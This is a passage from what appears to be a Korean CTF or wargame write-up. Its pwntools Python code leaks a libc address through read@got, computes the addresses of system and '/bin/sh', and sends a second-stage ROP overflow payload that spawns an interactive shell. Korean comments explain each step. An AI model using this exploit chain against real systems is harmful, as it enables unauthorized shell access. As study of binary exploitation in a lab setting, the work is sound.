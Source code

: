 ``` python
그래서 뒤에 0x00 두바이트를 붙여서 64비트 주소로 변환.

????
그런데 왜 recvuntil(b'A' * 0x40)일까?
우리가 p.send(payload) 했을 때, 대상 프로그램은
    write(1, buf, sizeof(buf)) // buf(0x40)만 출력
을 실행한다.
따라서 프로그램이 화면(stdout)에 내보내는 첫 출력은 buf 내용의 "A" * 0x40 이다.
그 뒤에 우리가 ROP로 호출한 write(1, read@got, 8)의 결과(즉, libc 실제 주소)가 이어서 출력된다.
'''
p.recvuntil(b'A' * 0x40)
read = u64(p.recvn(6) + b'\x00' * 2)

'''
read의 실제 주소 - read 오프셋을 하여 libc base 값을 구한다.
이를 이용해서 system주소와 "/bin/sh"의 주소를 구한다.
'''
lb = read - read_offset
system = lb + system_offset
binsh = sh + lb

'''
local 테스트시
[+] libc base: 0x7fc8cbeeb510
remote 테스트시
[+] libc base: 0x7f895b4b9000

로컬에서 테스트하면 현재 로컬시스템인 칼리리눅스의 libc.so.6을 이용하기때문에  정확한 주소가 구해지지 않는다.
libc base 주소는 아래 3바이트가 0으로 셋팅된다.
로컬에서 올바르게 테스트하기 위해서는 도커 파일을 이용해 컨테이너를 생성하고 테스트 해야 한다.
'''
slog("read", read)
slog("libc base", lb)
slog("system", system)
slog("/bin/sh", binsh)

# Stage 2
payload: bytes = b'A' * 0x48

# system("/bin/sh")
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
p.recvuntil(b'A' * 0x40)

p.interactive()
```
